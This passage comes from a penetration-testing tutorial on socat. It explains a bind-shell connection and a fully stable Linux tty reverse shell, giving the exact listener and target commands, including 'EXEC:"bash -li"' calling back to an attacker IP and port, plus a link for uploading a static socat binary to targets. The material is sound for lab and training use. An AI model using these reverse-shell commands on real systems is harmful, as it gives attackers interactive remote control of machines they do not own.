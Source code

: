 Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```commandline
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### The power of Socat

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```commandline
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Example on the host:

````commandline
socat TCP-L:1234 FILE:`tty`,raw,echo=0
````

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```commandline
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

Example on the target:

```commandline
socat TCP:192.168.0.54:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: `pty`, `stderr`, `sigint`, `setsid` and `sane`:

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.
